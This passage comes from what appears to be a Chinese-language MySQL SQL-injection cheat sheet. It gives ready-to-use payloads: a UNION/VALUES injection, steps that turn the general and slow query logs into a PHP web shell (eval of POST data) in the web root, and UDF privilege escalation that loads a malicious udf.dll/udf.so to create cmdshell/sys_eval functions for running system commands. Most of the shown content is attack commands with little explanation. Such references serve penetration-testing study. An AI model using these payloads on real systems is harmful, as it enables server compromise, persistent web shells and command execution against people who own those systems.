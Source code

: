     ```
    (table information_schema.TABLESPACES_EXTENSIONS limit 0,1)
    ```

    增加`values`

    ```
    select 1,2,3 where 1 = 1 union values row(1,2,3)
    ```

7. log写入shell

    ```mysql
    show global variables like '%general_log%';
    set global general_log=on;
    set global general_log_file='D://x.php';
    select "<?php eval($_POST['x']) ?>";
    set global general_log=off;
    ```

    ```mysql
    show global variables like '%query_log%';
    set global slow_query_log=on;
    set global slow_query_log_file='D://x.php';
    show variables like '%log%';
    select '<?php phpinfo();?>' from mysql.db where sleep(2);
    set global slow_query_log=off;
    ```

8. udf提权

    ```mysql
    select @@basedir;
    show variables like '%plugins%';
    create function cmdshell returns string soname 'udf.dll';
    select cmdshell('whoami');
    select * from mysql.func;
    delete from mysql.func where name='cmdshell';
    ```

    加载恶意`udf.so/udf.dll`也可以用来执行系统命令
    ```mysql
    1';CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so'; -- # 创建系统命令sys_eval
    ```

9. mysql_fake_sever
    后续其他补充其他知识点后补充

#### 其他实用语句


1. `ORDER BY`语句的简单应用

    `ORDER BY` 语句用于**根据指定的列对结果集进行排序**。

    在1'判断的例子中，`order by` 语句用于猜解字段数和列数，若不存在则会回显出错
